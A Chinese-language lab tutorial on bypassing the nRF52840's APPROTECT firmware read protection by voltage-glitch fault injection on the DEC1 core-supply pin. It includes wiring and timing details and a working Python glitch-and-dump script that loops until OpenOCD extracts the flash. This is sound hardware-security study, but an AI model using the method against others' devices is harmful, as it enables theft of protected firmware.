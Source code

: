 # 相关工具及环境



## 推荐硬件设备清单

- nRF52840 QIAAD0 开发板（USB Dongle）
- Pico 示波器
- PowerShorter 电压短路故障注入设备
- FlexHolder 柔性探针台
- Jlink 调试器
- 杜邦线若干



## 软件清单

- [Jlink 软件及驱动](https://www.segger.com/downloads/jlink/)
- [nRF-Command-Line-Tools](https://www.nordicsemi.com/Products/Development-tools/nRF-Command-Line-Tools)
- [openocd](https://github.com/xpack-dev-tools/openocd-xpack/releases)
- [Pico 示波器软件](https://www.picotech.com/downloads)
- [zadig](https://zadig.akeo.ie/)

------

# APPROTECT 介绍与开启

nRF52 系列芯片为保护开发者固件不被非法读取，提供了 APPRTOECT 固件读保护机制，开启读保护后无法使用 SWD 接口读取芯片内的固件



## 开启保护方法

先使用 Jlink 连接 目标 SWD 接口

| USB Dongle | **Jlink** |
| ---------- | --------- |
| VDD        | VT/VREF   |
| GND        | GND       |
| SWCLK      | TCK/SWCLK |
| SWDIO      | TMS/SWDIO |

![image-20241210113020427](./img/image-20241210113020427.png)

使用官方命令行工具（nRF-Command-Line-Tools）执行如下命令，对开发板重新上电复位后生效：

```
nrfjprog -f nRF52 --memwr 0x10001208 --val 0xFFFFFF00
```



再次连接芯片已无法查看 Flash

![image-20241210105012402](./img/image-20241210105012402.png)



## 解除保护方法

不管是 Jflash 还是官方命令行工具都提供解除保护的功能（代价是清除芯片内固件，以达到保护固件不被非法读取的目的）

JFlash 软件在探测到保护开启时直接点击 Yes 即可解除保护

![image-20241210105116600](./img/image-20241210105116600.png)

官方命令行工具提供 ```nrfjprog -f NRF52 --recover``` 命令解除保护



## APPROTECT 介绍

通过阅读[芯片手册第 42 页](https://docs.nordicsemi.com/bundle/nRF52840_PS_v1.2/resource/nRF52840_PS_v1.2.pdf)可以得知：APPROTECT 寄存器位于 0x10001208 默认值 0xFF 表示关闭保护，若写为 0x00 则表示开启保护，因此官方工具开启保护实际是将该寄存器写为了 0x00

芯片上电后会读取该寄存器的值，若为 0x00 则配置保护机制，不允许通过 SWD 接口访问芯片内固件，因此我们可以在芯片上电时对其进行故障注入，绕过该配置流程，使得调试接口保持开启状态

------

# 故障注入绕过 APPROTECT 读保护



## 电压毛刺注入物理位置：CPU 核心供电

电压故障注入攻击点位于芯片附近的一颗小电容的右侧，该点连接到芯片 DEC1 引脚（电容左侧通过万用表可测得为 GND）

![image-20241210105935824](./img/image-20241210105935824.png)



## 电压毛刺注入时间位置

使用示波器以 DEC1 上升沿作为触发，观察 DEC1 处电压波形，可以看到存在一个小的电压下降沿，压降大约 100~200mv，毛刺就打在这个小下降沿附近

![image-20241210110057903](./img/image-20241210110057903.png)



## 故障注入时遇到的问题

1、如何控制设备重启

​	答：通过 PowerShorter 设备的 GPIO 为 Dongle 供电，Python 代码控制 GPIO

2、打哪个地方的电压、如何打

​	答：打 DEC1；短接 DEC1 和 GND 使其电压短暂拉低

3、什么时候打故障

​	答：以 GPIO 供电上升沿作为触发，设置延时，故障打在 DEC1 下降沿附近

4、怎么判断是否打成功了

​	答：openocd 连接 SWD 读取固件，dump 成功则故障注入成功（注：Openocd 调用 jlink 需要使用 zadig 软件安装 winusb 驱动）



**配合 Flex Holder 柔性探针台可以免去焊接，直接将小电容右侧的 DEC1 引脚引出**

![image-20241210110621643](./img/image-20241210110621643.png)

![image-20241210110628584](./img/image-20241210110628584.png)



## 硬件接线参考

![image-20241210113346327](./img/image-20241210113346327.png)



## 成功波形参考

A 通道(蓝色波形)为供电电压；B 通道(红色波形)为 DEC1 电压

DEC1 的下降沿位置恰好被故障毛刺命中，不再表现为下降沿，但并不是没有下降沿就为成功

![image-20241210110739940](./img/image-20241210110739940.png)



## 攻击脚本参考

**推荐使用 Jupyter Lab 进行实验**

导入 Python 库

```python
from power_shorter import *
import time, os, random, subprocess
import serial
import faultviz
```

初始化设备

```python
ps_dev = PowerShorter('com55')
```

测试设备上下电

```python
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(1)
ps_dev.gpio(GPIO.GPIO1, 1)
```

初始化 faultviz 服务与表单

```python
faultviz.start_view_service(port=12345) 
vt = faultviz.ViewWidget()
```

定义攻击函数

```python
def nrf52_attack():
    ps_dev.gpio(GPIO.GPIO1, 0)
    time.sleep(1)
    glitch_delay = random.randint(158500, 158700) # 设置毛刺延迟范围
    glitch_pulse = random.randint(100, 300)       # 设置毛刺宽度范围
    ps_dev.engine_cfg(Engine.E1, [(0, glitch_delay), (1, glitch_pulse), (0, 1)], TRIGGER_MODE.RISE)    # 设置毛刺延时及宽度
    ps_dev.arm(Engine.E1)        # 激活毛刺
    ps_dev.gpio(GPIO.GPIO1, 1)   # 设备上电
    time.sleep(0.5)              # 延迟一段时间 等待攻击完成
    s = ps_dev.state(Engine.E1)  # 检查毛刺状态
    if s == "glitched":
        res, result = subprocess.getstatusoutput('openocd -f interface/jlink.cfg -c "transport select swd" -f target/nrf52.cfg -c "init;dump_image nrf_flash.bin 0x0 0x10000;exit"')  # 通过 OpenOCD dump 固件，若成功则表示已绕过 APPROTECT
        if "Could not find MEM-AP to control the core" in result:
            status = "Normal"
        elif "No J-Link device found" in result:
            status = "No Jlink"
        elif res == 0:
            status = "Success"
        else:
            status = "Unknown"
        vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = result, res = res)  # 更新故障结果到表单
        return res
    else:
        print("no trigger")
```

执行一次攻击函数，检查代码是否有问题

```python
nrf52_attack()
```

查看表单，检查刚才的攻击是否将结果添加到表单中

```python
vt.show()
```

写个循环，直到成功绕过 APPROTECT 才停止攻击，循环过程中故障参数及结果会不断添加到 vt 表单中，配合示波器调整参数，优化毛刺位置

```python
doAttack = 1
while(doAttack):
    doAttack = nrf52_attack()
```



